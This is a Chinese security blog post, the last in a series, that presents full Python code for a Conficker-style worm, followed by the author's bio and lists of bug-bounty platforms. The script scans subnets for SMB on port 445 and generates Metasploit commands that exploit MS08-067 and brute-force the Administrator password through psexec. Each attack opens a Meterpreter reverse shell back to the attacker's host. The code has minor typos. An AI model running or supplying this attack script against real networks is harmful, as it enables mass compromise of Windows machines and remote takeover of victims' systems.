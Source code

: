 # 原创
：  【Python脚本进阶】2.4、conficker蠕虫（终）

# 【Python脚本进阶】2.4、conficker蠕虫（终）

  <img alt="" src="https://img-blog.csdnimg.cn/2e86bda3ff034c71920f2f40732c3929.gif"/>

## 前言：

> 
<h3><img alt="" height="24" src="https://img-blog.csdnimg.cn/c2dfbe518f7d43a2978e4e6f1bfd5ea1.gif" width="24"/>介绍： </h3>
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>博主：网络安全领域狂热爱好者（承诺在CSDN永久无偿分享文章）。
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>殊荣：CSDN网络安全领域优质创作者，2022年双十一业务安全保卫战-某厂第一名，某厂特邀数字业务安全研究员，edusrc高白帽，vulfocus、攻防世界等平台排名100+、高校漏洞证书、cnvd原创漏洞证书等。
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>擅长：对于技术、工具、漏洞原理、黑产打击的研究。
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>C站缘：C站的前辈，引领我度过了一个又一个技术的瓶颈期、迷茫期。
<hr/>
<h3><img alt="" height="24" src="https://img-blog.csdnimg.cn/9f7cfdd7c4294c9e9bff7ef35f552f0c.gif" width="24"/>导读：</h3>
<img alt="" height="23" src="https://img-blog.csdnimg.cn/b1b5426baac44b97b68428245cc35d77.png" width="23"/>面向读者：对于网络安全方面的学者。 
<img alt="" height="23" src="https://img-blog.csdnimg.cn/19ea593260b84ec8b836a336326fa0cc.png" width="23"/>本文知识点（读者自测）： 
（1）蠕虫完整代码（√）


### <img alt="" height="24" src="https://img-blog.csdnimg.cn/9f7cfdd7c4294c9e9bff7ef35f552f0c.gif" width="24"/>导读：

> 
<h2> <img alt="" height="23" src="https://img-blog.csdnimg.cn/19e90c25b42d4b368c3c94da4b04afb0.png" width="23"/>让读者如虎添翼</h2>
<table border="1" cellpadding="1" cellspacing="1"><tbody>|conficker蠕虫博文|目标|状态
|[【Python脚本进阶】conficker蠕虫（上）:Metasploit攻击Windows SMB服务](https://blog.csdn.net/qq_53079406/article/details/126077115)|Metasploit攻击|已发布
|[【Python脚本进阶】conficker蠕虫（中）:Python脚本与Metasploit交互](https://blog.csdn.net/qq_53079406/article/details/126081487)|Python脚本与Metasploit交互|已发布
|[【Python脚本进阶】conficker蠕虫（下）:暴破口令，远程执行进程](https://blog.csdn.net/qq_53079406/article/details/126084405)|暴破口令，远程执行进程|已发布
|[【Python脚本进阶】conficker蠕虫（终）](https://blog.csdn.net/qq_53079406/article/details/126084602)|完整代码|已发布
</tbody></table>



> 
<h2>完整</h2>
脚本能扫描可能的目标， 利用MS08_067漏洞， 并通过暴力猜测密码远程执行一个进程。
<hr/>
最后， 还要在main()函数中添加一些参数解析代码，然后调用刚才编写的那些函数， 以完成脚本的编写。


<pre><code>import os
import optparse
import sys
import nmap


def findTgts(subNet):
    nmScan = nmap.PortScanner()
    nmScan.scan(subNet, '445')
    tgtHosts = []
    for host in nmScan.all_hosts():
        if nmScan[host].has_tcp(445):
            state = nmScan[host]['tcp'][445]['state']
            if state == 'open':
                print('[+] Found Target Host：' + host)
                tgtHosts.append(host)
    return tgtHosts


def setupHandler(configFile, lhost, lport):
    configFile.write('use exploit/multi/handler\n')
    configFile.write('setPAYLOAD ' + 'windows/meterpreter/reverse_tcp\n')
    configFile.write('set LPORT ' + str(lport) + '\n')
    configFile.write('set LHOST ' + lhost + '\n')
    configFile.write('exploit -j -z\n')
    configFile.write('setg DisablePayloadHandler 1\n')

def confickerExploit(configFile, tgtHost, lhost, lport):
    configFile.write('use exploit/windows/smb/ms08_067_netapi \n')
    configFile.write('set RHOST ' +str(tgtHost) +'\n')
    configFile.write('set PAYLOAD '+ 'windows/meterpreter/reverse_tcp\n')
    configFile. write ('set LPORT ' +str(lport） + '\n')
    configFile. write ('set LHOST ' +lhost +'\n')
    configFile. write ('exploit -j -z\n')

def smbBrute(configFile, tgtHost, passwdFile, lhost, lport):
    username = 'Administrator'
    pF = open( passwdFile, 'r' )
    for password in pF.readlines():
        password = password.strip('\n').strip('\r')
        configFile.write('use exploit/windows/smb/psexec\n')
        configFile.write('set SMBUser ' + str(username) + '\n')
        configFile.write('set SMBPass ' + str(password) + '\n')
        configFile.write('set RHOST ' + str(tgtHost) + '\n')
        configFile.write('set PAYLOAD ' + 'windows/meterpreter/reverse_tcp\n')
        configFile.write('set LPORT ' + str(lport) + '\n')
        configFile.write('set LHOST ' + lhost + '\n')
        configFile.write('exploit -j -z\n')

def main():
    configFile = open('meta.rc', 'w')
    parser = optparse.OptionParser('[-] Usage%prog ' + '-H &lt;RHOST[s]&gt; -l &lt;LHOST&gt; [-p &lt;LPORT&gt; -F &lt;Password File&gt;]')
    parser.add_option('-H', dest='tgtHost', type='string', help='specify the target address [es]')
    parser.add_option('-p', dest='lport', type='string', help='specify the listen port')
    parser.add_option('-l', dest='lhost', type = 'string', help='specify the listen address')
    parser.add_option('-F', dest='passwdFile', type='string', help='password file for SMB brute force attempt')
    (options, args) = parser.parse_args()
    if (options.tgtHost == None) | (options.lhost == None):
        print(parser.usage)
        exit(0)
    lhost = options.lhost
    lport = options.lport
    if lport == None:
        lport = '1337'
    passwdFile = options.passwdFile
    tgtHosts = findTgts(options.tgtHost)
    setupHandler(configFile, lhost, lport)
    for tgtHost in tgtHosts:
        confickerExploit(configFile, tgtHost, lhost, lport)
        if passwdFile != None:
            smbBrute(configFile, tgtHost, passwdFile, lhost, lport)
    configFile.close()
    os.system('msfconsole -r meta.re')



if __name__ == '__main__':
    main()</code></pre>


 

---


---


> 
<h2><img alt="" height="28" src="https://img-blog.csdnimg.cn/0797a1b4a28e49479db240e038a7969d.png" width="28"/>网络安全三年之约</h2>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/0052aabacbb147b482912c9fe1950f56.png" width="23"/>First year </h3>
掌握各种原理、不断打新的靶场
<img alt="" height="23" src="https://img-blog.csdnimg.cn/6b308c9501174788aa24fa4e5ea8fdd2.png" width="23"/>目标：edusrc、cnvd 
[主页 | 教育漏洞报告平台 (sjtu.edu.cn)https://src.sjtu.edu.cn/](https://src.sjtu.edu.cn/)[https://www.cnvd.org.cnhttps://www.cnvd.org.cn/](https://www.cnvd.org.cn/)
<hr/>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/8439bb91fdfb4e739bacba4c96b9fb17.png" width="23"/>second year </h3>
不断学习、提升技术运用技巧，研究各种新平台
开始建立自己的渗透体系
<img alt="" height="23" src="https://img-blog.csdnimg.cn/3bc7983d3bac437fbcf8b3530e3ec8d3.png" width="23"/>目标：众测平台、企业src应急响应中心 
<table border="1" cellpadding="1" cellspacing="1"><tbody>|众测平台|URL
|漏洞盒子|[漏洞盒子 | 互联网安全测试众测平台](https://www.vulbox.com/)
|火线安全平台|[火线安全平台](https://www.huoxian.cn/)
|漏洞银行|[BUGBANK 官方网站 | 领先的网络安全漏洞发现品牌 | 开放安全的提出者与倡导者 | 创新的漏洞发现平台](https://www.bugbank.cn/)
|360漏洞众包响应平台|[360漏洞云漏洞众包响应平台](https://src.360.net/)
|补天平台（奇安信）|[补天 - 企业和白帽子共赢的漏洞响应平台，帮助企业建立SRC](https://www.butian.net/)
|春秋云测|[首页](https://zhongce.ichunqiu.com/)
|雷神众测（可信众测，安恒）|[雷神众测 - BountyTeam](https://www.bountyteam.com/)
|云众可信（启明星辰）|[云众可信 - 互联网安全服务引领者](https://www.cloudcrowd.com.cn/)
|ALLSEC|[ALLSEC](https://i.allsec.cn/#/)
|360众测|[360众测平台](https://zhongce.360.cn/)
|看雪众测（物联网）|[https://ce.kanxue.com/](https://ce.kanxue.com/)
|CNVD众测平台|[网络安全众测平台](https://zc.cnvd.org.cn/)
|工控互联网安全测试平台|[CNCERT工业互联网安全测试平台](https://test.ics-cert.org.cn/)
|慢雾（区块链）|[Submit Bug Bounty - SlowMist Zone - Blockchain Ecosystem Security Zone](https://slowmist.io/bug-bounty.html)
|平安汇聚|[http://isrc.pingan.com/homePage/index](http://isrc.pingan.com/homePage/index)
</tbody></table>


<table border="1" cellpadding="1" cellspacing="1"><tbody>|互联网大厂|URL
|阿里|https://asrc.alibaba.com/#/
|腾讯|https://security.tencent.com/
|百度|https://bsrc.baidu.com/v2/#/home
|美团|https://security.meituan.com/#/home
|360|https://security.360.cn/
|网易|https://aq.163.com/
|字节跳动|https://security.bytedance.com/
|京东|https://security.jd.com/#/
|新浪|http://sec.sina.com.cn/
|微博|https://wsrc.weibo.com/
|搜狗|http://sec.sogou.com/
|金山办公|https://security.wps.cn/
|有赞|https://src.youzan.com/
</tbody></table>

<hr/>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/18b63058b35848b19967730eb49fcb45.png" width="23"/>Third Year </h3>
学习最新的知识，建全自己的渗透体系
<img alt="" height="23" src="https://img-blog.csdnimg.cn/7ccb45a55d5244edad5a9a1fabc55f08.png" width="23"/>目标：参与护网（每一个男孩子心中的梦想） 
时间：一般5月面试，6/7月开始（持续2-3周）
分类：国家级护网、省级护网、市级护网、重大节日护网（如：建党、冬奥等）


### <img alt="" height="23" src="https://img-blog.csdnimg.cn/8439bb91fdfb4e739bacba4c96b9fb17.png" width="23"/>second year 

---


 
